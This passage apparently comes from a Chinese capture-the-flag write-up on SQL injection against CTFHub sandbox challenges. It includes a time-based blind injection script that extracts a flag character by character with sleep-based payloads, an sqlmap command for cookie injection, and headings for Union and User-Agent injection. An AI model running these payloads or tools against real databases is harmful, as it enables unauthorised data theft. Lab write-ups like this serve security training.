 ```bash
                    sys.exit()
                 else:
                     name+=str_ascii
                     break
        print(name)
 
 # #查询字段内容
 # for i in range(1,50):
 #     print(i)
 #     for j in range(31,128):
 #         j = (128+31) -j
 #         str_ascii=chr(j)
 #         payolad = "if(substr((select flag from sqli.flag),%d,1) = '%s',sleep(1),1)" %(i,str_ascii)
 #         start_time = time.time()
 #         str_get = session.get(url=url + payolad)
 #         end_time = time.time()
 #         t = end_time - start_time
 #         if t > 1:
 #             if str_ascii == "+":
 #                 sys.exit()
 #             else:
 #                 name += str_ascii
 #                 break
 #     print(name)

```

---
## MySQL
Union 注入

---
## cookie注入
![](https://img-blog.csdnimg.cn/20210311224652358.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
无输入点，看cookie

一、Bp： 抓包后在cookie处union注入

二、Sqlmap： --level 2

```
python sqlmap.py -u http://challenge-1dc7ddfe22520dcd.sandbox.ctfhub.com:10080/ --batch --cookie "id=1" --dbs --level 2
```

![](https://img-blog.csdnimg.cn/20210311224819581.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## UA注入
useragent注入
